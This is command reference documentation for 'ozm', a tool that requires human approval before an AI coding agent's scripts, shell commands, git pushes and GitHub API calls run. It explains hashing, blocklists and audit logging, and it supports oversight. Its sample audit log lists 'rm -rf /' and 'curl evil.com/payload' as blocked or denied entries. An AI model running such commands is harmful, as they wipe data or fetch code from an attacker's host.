


# Commands

## ozm run

Run a script after content review. The script's SHA-256 hash is recorded on first approval — subsequent runs of the same unmodified file execute immediately.

```
ozm run --agent-name "<work>" --agent-description "<one-line intent>" <script> [args...]
```

**First run (or after modification):**

```
$ ozm run --agent-name "Deploy production" --agent-description "Run the reviewed production deployment script." deploy.sh production
```

A native macOS dialog appears showing the full file with syntax highlighting. You can Allow or Deny, with an optional feedback message that gets printed to stderr for the agent to read. Generated stdin approvals show an orange **Ozm in-memory file** indicator and their logical name instead of a temporary implementation path. Generated `shell:` approvals use a terminal icon, show **Ozm shell command**, omit the Ozm-added shebang, and count only command lines.

If a persistent file has changed since last approval, the dialog shows a syntax-highlighted diff instead of the full file. Generated stdin and shell content always shows a complete review. Ozm does not compare it with prior generated content because a reused title does not establish that the content is related.

**Subsequent runs (unchanged):**

```
$ ozm run --agent-name "Deploy production" --agent-description "Run the reviewed production deployment script." deploy.sh production
# executes immediately, no prompt
```

**Scripts must have a shebang.** ozm executes scripts directly, so the first line must declare the interpreter. The source file does not need an executable file mode. Do not run `chmod +x` before `ozm run`; ozm executes the reviewed content from a private, user-executable snapshot.

```python
#!/usr/bin/env python3
print("hello")
```

```bash
#!/usr/bin/env bash
echo "hello"
```

**Direct-command wrapper scripts are rejected.** The shebang, blank lines, and comment-only lines do not count as executable lines. If only one executable line remains, Ozm stops before cache and approval checks. Ozm also stops when every command segment invokes `ozm`. This applies to disk files, `ozm run --stdin`, and generated in-memory `shell:` files for input such as `ozm status && ozm tips`. Run each Ozm command directly and one at a time so normal automatic approvals can apply. Use `ozm run` only for scripts that contain real multi-step logic.

### Flow


```mermaid
flowchart TD
    A[ozm run with agent metadata] --> B{Metadata valid?}
    B -->|No| M[Reject with memory reminder]
    B -->|Yes| C{File exists?}
    C -->|No| E[Error: not found]
    C -->|Yes| Z{Only ozm command segments?}
    Z -->|Yes| Q[Reject: run each ozm command directly]
    Z -->|No| O{Only one executable line?}
    O -->|Yes| P[Reject: use a direct ozm command]
    O -->|No| D{Hash matches stored?}
    D -->|Yes| X[Execute immediately]
    D -->|No| F{New or changed?}
    F -->|New| G[Show file content in dialog]
    F -->|Changed| H[Show diff in dialog]
    G --> I{User decision}
    H --> I
    I -->|Allow| J[Store hash, execute]
    I -->|Deny| K[Exit with feedback]
```

---

## Root `--cwd`, `--grep`, `--head`, and `--tail` Controls

Put root controls before `cmd`, `gh`, `git`, or `run`. Use `--cwd DIRECTORY` instead of `cd DIRECTORY && ...`. Use `--grep TERM` to show stdout lines that contain a literal term. Repeat it to match any term. Use `--head N` or `--tail N` to show leading or trailing filtered lines:

```bash
ozm --cwd /path/to/worktree \
  --grep "func previewOrderV2FacetSpecsForProjection" \
  --grep "coverageUnresolvedSelectionSource" \
  --head 20 \
  git --agent-name "Inspect preview order" \
  --agent-description "Find projection code in the main branch file." \
  show origin/main:path/to/config.go
```

These options avoid in-memory shell approvals for pipelines such as `ozm git show ... | grep ... | head -n 20`. Literal grep matching is case-sensitive. Ozm applies `--cwd` before it loads project policy. It applies `--grep` before `--head` or `--tail`, leaves stderr visible, continues consuming stdout until the child finishes, and preserves the child exit code even when grep finds no line. Output filters do not change command policy, approval, or audit classification. Before opening an approval dialog, Ozm rejects generated `shell:` content that ends in supported `head`, `head -N`, `head -n N`, or `head --lines=N` forms and prints the equivalent root `--head N` nudge. It also nudges generated Ozm commands that end in `|| true`. Ozm blocks reviewed Ozm pipelines to `true` because `| true` discards stdout and can interrupt the upstream command. Raw generated pipelines such as `rg ... | head` receive the same root `--head` nudge. Generated simple command chains must run directly and separately. Generated wrappers that start with `cd` receive a root `--cwd` nudge. Generated shell content cannot invoke or source a mutable script; use `ozm run` so Ozm reviews the target content.

---

## ozm cmd

Run an arbitrary argv-style command after approval. The command string is hashed — approve once and it runs without prompting until you reset.

```
ozm cmd --agent-name "<work>" --agent-description "<one-line intent>" <command> [args...]
```

**Examples:**

```bash
# Install a package
$ ozm cmd --agent-name "Install requests" --agent-description "Install the HTTP client dependency." uv pip install requests

# Run a one-liner
$ ozm cmd --agent-name "Check API health" --agent-description "Call the service health endpoint." curl https://api.example.com/health

# Multi-word commands work naturally
$ ozm cmd --agent-name "Start services" --agent-description "Bring the local Docker stack up." docker compose up -d
```

**Built-in semantic reads:** Exact conservative forms of `command -v`, `bazel query`, `brew search`, `npm view`, and `npm list` run before allowlist, cache, and approval checks. `bazel query --output_file` and unknown or write-capable forms are not semantic reads. `gh api --help` is also a local semantic read.

**Script detection:** If Ozm detects a direct script, an interpreter script, or a wrapper-based script (for example, `ozm cmd poll.sh`, `ozm cmd python script.py`, or `ozm cmd uv run script.py`), it stops before policy, cache, and approval checks. The `ozm run` suggestion preserves script arguments. Extensionless files with a shebang are also detected. This ensures script content uses review and the content hash cache.

```
$ ozm cmd --agent-name "Run script" --agent-description "Try to execute a Python script." python myscript.py
ozm: use 'ozm run --agent-name "Run script" --agent-description "Try to execute a Python script." myscript.py' instead — make sure the script has a shebang (#!/usr/bin/env python3)
```

**GitHub command redirect:** Direct `gh` commands sent through `ozm cmd` are rejected before policy, cache, or approval checks. Ozm prints the equivalent `ozm gh` invocation with the original agent metadata and GitHub arguments. This includes high-level commands and raw API operations such as pull-request review replies.

**Editable commands:** The macOS approval dialog lets you edit the command before running it. You can also enter a rule pattern (e.g. `curl https://api.example.com/*`). If you click Allow, the pattern is saved as an allowlist rule. If you click Deny, the pattern is saved as a blocklist rule. Check **Apply globally** to save the rule in `~/.ozm/config.yaml`; otherwise it is saved to the trusted project config. If **Apply globally** is checked and the rule field is blank, ozm saves the exact command as the global rule.

**Agent metadata:** `--agent-name` is the short work name shown in the dialog. `--agent-description` must be exactly one line describing what the agent is trying to do. Missing, empty, multiline, or overlong metadata is rejected before execution, with an instruction for the agent to write the requirement to memory before retrying.

**Disallowed commands:** `sed`, `gsed`, and `rg --pre` are blocked even when they appear in `allowed_commands`, because they can edit files in-place or execute hidden preprocessing. Use `rg` without `--pre` for searching, `cat`/`nl`/`head`/`tail` for viewing, or write a small reviewed script and run it with `ozm run <script>` for transformations.

**Sensitive command safeguards:** Bare `env` output is blocked before policy because it can expose credentials and tokens. Inspect named variables only. Executables resolved under temporary locations do not use config or command cache authorization. Ozm displays their SHA-256 digest and requires `--reason` for a one-time override. It verifies that the path and digest did not change after approval.

**Recent `chmod` safeguard:** When `chmod` targets a file modified in the last 10 minutes, ozm stops before config and approval-cache checks. A script does not need `chmod +x` for `ozm run`. If the source file mode itself must change, re-run the command with `--confirm-recent-chmod`:

```bash
ozm cmd --confirm-recent-chmod --agent-name "Mark launcher executable" --agent-description "Persist the executable bit in the repository." chmod +x scripts/launcher.sh
```

The confirmation flag does not approve the command. Normal blocklist, allowlist, cache, and approval checks still apply.

**Read-only GitHub API:** Unambiguous REST `GET` and `HEAD` requests are auto-allowed. Ozm infers an implicit `GET` only when the command has one relative endpoint and no body-producing field or input flag. Explicit writes, ambiguous or duplicate methods, file-backed fields or input, unsafe method-override headers, unknown options, and absolute URLs go through normal approval.

`gh api graphql -f query=...` requests are auto-allowed when ozm can prove the selected operation is a query. Mutations, file-backed queries, malformed documents, and ambiguous multi-operation requests still go through normal approval.

**Approval order:**

1. Hard-disallowed command family? Deny immediately.
2. Blocked by global or project `blocked_commands`? Deny, or show a one-time override dialog if `--reason "..."` is present.
3. Known semantic read-only command? Run immediately.
4. Matches global or project `allowed_commands`? Run immediately.
5. Hash matches a previous approval? Run immediately.
6. Otherwise, show approval dialog.

### Flow


```mermaid
flowchart TD
    A[ozm cmd with agent metadata] --> Z{Metadata valid?}
    Z -->|No| M[Reject with memory reminder]
    Z -->|Yes| B{Script file detected?}
    B -->|Yes| C[Suggest ozm run, exit]
    B -->|No| D{Blocked pattern?}
    D -->|Yes, no reason| E[Deny, log]
    D -->|Yes + reason| O[Show override dialog]
    O -->|Allow once| G[Execute, log]
    O -->|Deny| E
    D -->|No| S{Semantic read-only?}
    S -->|Yes| G
    S -->|No| F{Allowed pattern?}
    F -->|Yes| G
    F -->|No| H{Hash cached?}
    H -->|Yes| G
    H -->|No| I[Show approval dialog]
    I -->|Allow| J[Store hash, execute]
    I -->|Allow + pattern| K[Save allow rule, execute]
    I -->|Deny + pattern| M[Save block rule, exit]
    I -->|Deny| L[Exit with feedback]
```

---

## ozm gh

Run GitHub CLI operations through the same policy engine as `ozm cmd`:

```bash
ozm gh --agent-name "Inspect PR" --agent-description "Read PR checks and review state." pr checks 123 --repo owner/repo
ozm gh --agent-name "Read API" --agent-description "Read paginated review comments." api --paginate repos/owner/repo/pulls/123/comments --jq '.[] | {id,path,line}'
ozm gh --agent-name "Reply to review" --agent-description "Reply to one PR review comment." pr review-reply --repo owner/repo --number 123 --comment-id 456 --body-file reply.md
```

Use `ozm gh` instead of direct `gh` or `ozm cmd gh ...` commands. Ozm resolves the real `gh` executable from trusted system locations before execution. Known high-level reads, REST `GET` and `HEAD` requests, and proven GraphQL queries run directly. Writes and unknown operations continue through project/global blocklists, allowlists, the approval cache, and the approval dialog. Native proxy operations use `gh` as the audit kind, so they are distinct from generic `cmd` entries.

`pr review-reply` validates `OWNER/REPOSITORY`, the pull-request number, the review-comment ID, and exactly one of `--body` or `--body-file`. `issue add-sub-issue` validates the repository, parent issue number, and GitHub numeric sub-issue database ID. Each typed operation uses a fixed endpoint. Configure exact repository authorization under `github.allowed_operations` to skip repeat approvals. Without that policy, typed writes retain normal approval. A matching raw `gh api -X POST repos/OWNER/REPOSITORY/pulls/NUMBER/comments/COMMENT_ID/replies ...` request is blocked before policy, cache, or approval checks. Ozm prints the equivalent typed command.

To pass `--help` to the underlying GitHub CLI, use `ozm gh --agent-name "Read GitHub help" --agent-description "Show GitHub CLI help." -- --help`. A plain `ozm gh --help` shows proxy help.

---

## ozm git

Git pass-through with rule enforcement on commit and push. All other git subcommands pass through unmodified.

```
ozm git --agent-name "<work>" --agent-description "<one-line intent>" <subcommand> [args...]
```

**Commit rules:**

```bash
# Normal commit — subject must be <= 72 chars, total <= 500 chars
$ ozm git --agent-name "Commit auth fix" --agent-description "Create a single-line commit for the timeout fix." commit -m "Fix authentication timeout"

# Blocked: subject too long
$ ozm git --agent-name "Commit auth fix" --agent-description "Create a single-line commit for the timeout fix." commit -m "This is a very long commit message that exceeds the seventy-two character limit for subject lines"
# ozm: this policy error cannot be overridden; fix the command and retry
```

**Push rules:**

```bash
# Normal push
$ ozm git --agent-name "Push feature" --agent-description "Publish the current feature branch." push origin feature-branch

# Blocked: force push
$ ozm git --agent-name "Push feature" --agent-description "Publish the current feature branch." push --force
# ozm: force push requires --force-with-lease=REF:EXPECTED_SHA

# Override-eligible only with an exact destination and expected remote SHA
$ ozm git --agent-name "Rewrite feature" --agent-description "Update a reviewed feature branch with a pinned lease." push --force-with-lease=refs/heads/feature-branch:0123456789abcdef0123456789abcdef01234567 --reason "Replace the reviewed feature branch tip."

# Blocked: push to protected branch
$ ozm git --agent-name "Push feature" --agent-description "Publish the current feature branch." push
# (on main) ozm: pushing to 'main' is not allowed
```

**Other git commands pass through unchanged:**

```bash
$ ozm git --agent-name "Inspect repo" --agent-description "Check the current git state." status
$ ozm git --agent-name "Inspect diff" --agent-description "Review unstaged changes." diff
$ ozm git --agent-name "Inspect history" --agent-description "Read recent commit history." log --oneline -10
$ ozm git --agent-name "Inspect branches" --agent-description "List available branches." branch -a
```

**Configurable rules** (via `.ozm.yaml`):

- `allow_attribution: false` — blocks `Co-Authored-By:` and `Generated-by:` lines in commit messages
- `require_branch: true` — prevents commits directly on main/master
- `branch_prefixes: ["user/", "feat/", "fix/"]` — requires branch names to start with a listed prefix

**One-time overrides:** add `--reason "justification"` to an override-eligible `ozm git` or config-blocked `ozm cmd` operation. Commit-message errors and broad or unpinned force pushes are not override-eligible. Approved overrides are logged, but they are not cached and do not change allowlists.

---

## ozm install

Install ozm hooks system-wide. This registers a Claude Code `PreToolUse` hook in `~/.claude/settings.json` that intercepts all Bash tool calls and routes them through ozm.

```
ozm install [--project]
```

**System-wide install (default):**

```bash
$ ozm install
ozm: installing...
  hook: /Users/you/.ozm/hooks/enforce.sh
  claude: /Users/you/.claude/settings.json
ozm: done
```

This writes the enforcement hook script and configures Claude Code and Codex to use it. The hook applies to all projects.

**With project docs:**

```bash
$ ozm install --project
```

Also writes `CLAUDE.md` and `AGENTS.md` in the current directory with ozm usage instructions for the agent.

---

## ozm status

Show tracked files and commands with their current approval status.

```
ozm status
```

**Output:**

```
$ ozm status
  [     ok] deploy.sh
  [CHANGED] setup.py
  [MISSING] old_script.sh
  [     ok] cmd:uv pip install -e .
  [     ok] cmd:pytest
```

Labels:
- **ok** — hash matches, will execute without prompting
- **CHANGED** — file has been modified since approval, will prompt again
- **MISSING** — file no longer exists

---

## ozm reset

Forget approval for a specific script or all tracked entries in the current project.

```
ozm reset <script>
ozm reset --all
```

**Examples:**

```bash
# Forget one script
$ ozm reset deploy.sh
Forgot approval for deploy.sh

# Forget everything in this project
$ ozm reset --all
All approvals cleared for this project.
```

After reset, the next `ozm run` or `ozm cmd` will prompt for approval again.

---

## ozm log

Show recent entries from the audit log at `~/.ozm/audit.log`. Every approval, denial, and block is recorded with timestamp, action, type, working directory, and target.

```
ozm log [-n COUNT] [--since DURATION] [--summary] [--json]
```

**Examples:**

```bash
# Show last 20 entries (default)
$ ozm log

# Summarize the last three hours
$ ozm log --summary --since 3h
entries: 625
manual approvals: 127
manual denials: 9
generated run approvals: 63

# Show last 5 entries
$ ozm log -n 5
2026-04-26 10:15:03  cached     cmd  /Users/you/project  pytest
2026-04-26 10:15:45  blocked    cmd  /Users/you/project  rm -rf /
2026-04-26 10:16:12  clicked    run  /Users/you/project  /Users/you/project/deploy.sh
2026-04-26 10:17:01  denied     cmd  /Users/you/project  curl evil.com/payload  # looks suspicious
2026-04-26 10:18:30  config     cmd  /Users/you/project  docker compose up
```

Actions: `clicked` (user approved), `cached` (hash matched), `config` (allowlist match), `semantic` (built-in read-only classifier), `operation` (typed repository-scoped GitHub authorization), `override` (user-approved one-time override), `denied`, `blocked`, `error`, `no-dialog` (GUI unavailable, command blocked).

The `# comment` at the end is the user's feedback or decision context. Generated `shell:` and `stdin:` run entries include only their source type, content SHA-256, executable-line count, and command-family names. Ozm does not add full generated content or arguments to the audit line.

---

## ozm doctor

Run diagnostic checks to verify ozm is installed and configured correctly.

```
ozm doctor
```

**Output:**

```
$ ozm doctor
  [  ok] ozm binary: ozm found at /Users/you/.local/bin/ozm
  [  ok] hook script: hook script at /Users/you/.ozm/hooks/enforce.sh
  [  ok] claude settings: Claude Code hook configured in settings.json
  [  ok] pygments: pygments 2.20.0 available
  [  ok] project config: .ozm.yaml found at /Users/you/project/.ozm.yaml

All checks passed.
```

**Checks performed:**

| Check | What it verifies |
|-------|-----------------|
| ozm binary | `ozm` is on your PATH |
| hook script | `~/.ozm/hooks/enforce.sh` exists and is executable |
| claude settings | `~/.claude/settings.json` has the PreToolUse hook configured |
| pygments | pygments is installed (enables syntax highlighting) |
| project config | `.ozm.yaml` exists in the current project |

---

## ozm trust

Activate the `.ozm.yaml` from the current project. This copies the in-repo config into `~/.ozm/projects/` where ozm actually reads it at runtime. The in-repo file is never read directly — this is a security boundary. Global command rules live separately in `~/.ozm/config.yaml`.

```
ozm trust
```

**Example:**

```bash
$ cd new-project
$ ozm trust
ozm: copied /Users/you/new-project/.ozm.yaml -> /Users/you/.ozm/projects/new-project-a1b2c3d4.yaml
```

**Why this matters:** An agent (or a cloned repo) can edit `.ozm.yaml` freely, but the changes have no effect until a human explicitly runs `ozm trust`. This prevents a repo from silently adding allowlist entries.

**Optional:** ozm works without any config — all commands simply go through the approval dialog or hash cache. Config is only needed to pre-approve or block specific patterns.

---

## ozm config

Show the current project root, trusted project config path, global config path, and whether the trusted project config exists.

```
ozm config
```

**Example:**

```bash
$ ozm config
project: /Users/you/new-project
config:  /Users/you/.ozm/projects/new-project-a1b2c3d4e5f6g7h8.yaml
global:  /Users/you/.ozm/config.yaml
status:  exists
```
